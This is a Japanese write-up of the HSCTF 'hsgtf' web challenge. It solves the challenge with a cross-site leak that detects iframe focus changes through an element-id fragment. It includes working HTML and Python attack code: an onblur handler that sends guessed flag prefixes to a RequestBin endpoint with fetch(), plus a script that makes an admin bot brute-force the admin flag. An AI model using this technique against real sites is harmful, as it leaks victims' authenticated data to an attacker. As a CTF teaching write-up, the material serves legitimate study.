



# hsgtf:web:489pts
Why solve challenges when you can just guess the flag?  
[http://web1.hsctf.com:8001/](http://web1.hsctf.com:8001/)  
**Note: Your target is only the linked website; do not actually attempt to guess flags on the HSCTF challenge platform.**  
Downloads  
[hsgtf.zip](hsgtf.zip)  

# Solution
URLとソースが配布される。  
hsgtf  
[site1.png](site/site1.png)  
flagをguessしろといわれるが、私はエスパーではないので難しい。  
謎のURL報告機能も付いており、Adminが見てくれるようだ(ドメインの制限はなく、httpのみのスキーム制限がある)。  
Report  
[site2.png](site/site2.png)  
ソースを見てみると以下のようであった。  
```python
import os
import re
from flask import Flask, render_template, request

app = Flask(__name__)
USER_FLAG = os.environ["USER_FLAG"]
ADMIN_FLAG = os.environ["FLAG"]
ADMIN_SECRET = os.environ["ADMIN_SECRET"]

@app.route("/guess")
def create():
	if "guess" not in request.args:
		return "No guess provided", 400
	guess = request.args["guess"]
	
	if "secret" in request.cookies and request.cookies["secret"] == ADMIN_SECRET:
		flag = ADMIN_FLAG
	else:
		flag = USER_FLAG
	
	correct = flag.startswith(guess)
	return render_template("guess.html", correct=correct, guess=guess)

@app.route("/")
def index():
	return render_template("index.html")

if __name__ == "__main__":
	app.run()
```
単純な実装であり、入力とflagの先頭からを比較し結果を返してくれる。  
一致していた場合は  
  
一致していない場合は  
  
となる。  
単純にflagを取得することができるが、ソースによるとこれは`USER_FLAG`のようである。  
`ADMIN_FLAG`が取得したいが、`ADMIN_SECRET`は持っていない。  
`ADMIN_FLAG`のguessのためにcookieに`ADMIN_SECRET`が入っていることを要求していることからも、Admin Botには設定されていると考えられる。  
つまり、Admin Botにflagをguessさせた結果を取得しなければならない。  
URL報告機能からは結果は何も帰ってこないために、XS-Leaks的な手法が必要とされる。  
報告機能にドメインの制限はないため、iframeなどで何か読み取れるかもしれない。  
おそらく`USER_FLAG`と`ADMIN_FLAG`のふるまいに違いはないため、`USER_FLAG`でguessした場合の結果を調査する。  
サイトのソースは以下のようであった。  
一致していた場合  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<meta http-equiv="X-UA-Compatible" content="IE=edge" />
		<title>Create Page</title>
		<meta name="viewport" content="width=device-width, initial-scale=1" />
		<link rel="stylesheet" href="/static/index.css" />
	</head>
	<body>
		

		<div id="correct">
			<h1>Correct!</h1>
			<p>The flag starts with: "flag{"</p>
			<a id="continue" href="/">Continue Guessing</a>
		</div>
		
	</body>
</html>
```
一致していない場合  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<meta http-equiv="X-UA-Compatible" content="IE=edge" />
		<title>Create Page</title>
		<meta name="viewport" content="width=device-width, initial-scale=1" />
		<link rel="stylesheet" href="/static/index.css" />
	</head>
	<body>
		
		<div id="wrong">
			<h1>Wrong!</h1>
			<p>Your guess was: "flagO"</p>
			<a id="tryagain" href="/">Try Again</a>
		</div>
		
	</body>
</html>
```
サイズもあまり変わらないため、読み込みスピードなどもほぼ同じである。  
`id="correct"`と`id="wrong"`が変化しており、aタグの`id="continue"`と`id="tryagain"`も変化している。  
idでのリークはフラグメント識別子によるiframeのフォーカスの移り変わりを検知する手法が[知られている](https://xsleaks.dev/docs/attacks/id-attribute/)。  
今回でいえば、iframeのURLに`#continue`と指定すると、一致していた場合にフォーカスがiframeの中の`id="continue"`に移り、一致していない場合は`id="tryagain"`のみであるためフォーカスが映らない。  
これを外部のあらかじめフォーカスしておいた要素の`onblur`(フォーカスが離れた際に発生するイベント)で検知するといった手法である。  
一致(`flag{`)をリークするHTMLは以下のようになる。  
リークの受信は[RequestBin.com](https://requestbin.com/)を用いた。  
```html
<html>
<body>
<a id="satoki" href="http://example.com" onblur="fetch('https://xxxxxxxxxxxxx.x.pipedream.net?s=flag{')">satoki</a>
<script>
document.getElementById("satoki").focus();
var ifr = document.createElement("iframe");
ifr.src = "http://web1.hsctf.com:8001/guess?guess=flag{#continue";
document.body.appendChild(ifr);
</script>
</body>
</html>
```
`flag{`を`flagO`にするとリクエストが飛ばなくなることがわかる。  
これをAdmin Botに踏ませればよいが、puppeteerなどを使っていると初回アクセス時にURLバーにフォーカスしてしまい、うまくいかない。  
`windows.open`でいくつか開いてやることにする。  
手動でアルファベットすべてのiframeを作成するのは面倒なので、以下のleak.pyで自動化する。  
```python
from flask import Flask, request

app = Flask(__name__)

my_server = "https://xxxxxxxxxxxxx.x.pipedream.net"

@app.route("/<flag>")
def leak(flag):
    w_open = ""
    if request.args.get("open") is None:
        w_open = f"window.open('/{flag}?open');"
    return f"""
<html>
<body>
<a id="satoki" href="http://example.com" onblur="fetch('{my_server}?s={flag}')">satoki</a>
<script>
{w_open * 10}
document.getElementById("satoki").focus();
var ifr = document.createElement("iframe");
ifr.src = "http://web1.hsctf.com:8001/guess?guess={flag}#continue";
document.body.appendChild(ifr);
</script>
</body>
</html>
"""

if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
これを自身のサーバ(ex.`http://leakpy.satoki`)でホスティングする。  
このサーバにAdmin Botをアクセスさせるために、URLを報告するスクリプトcpost.pyを以下のようにする。  
```python
import time
import requests

flag = ""
my_leakpy_server = "http://leakpy.satoki"

MAX_POST = 2
for c in "_{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
    for _ in range(MAX_POST):
        res = requests.post("http://web1.hsctf.com:8000/hsgtf", data={"url": f"{my_leakpy_server}/{flag + c}"})
        time.sleep(1)
        #print(res.status_code)
        #print(res.text)
```
リークリクエストを受信するごとに、変数`flag`へ一文字ずつ追加していく。  
POSTリクエストはAdmin Botが不安定であったため、`MAX_POST`回行う設定になっている。  
複数回実行すると以下のようにflagが一文字ずつ取得できる(下から上の順)。  
  
最終的に`/?s=flag{guessgod_nkdtcfpoghau}`を受け取り、これがflagであった。  
GuessTheFlag……  

## flag{guessgod_nkdtcfpoghau}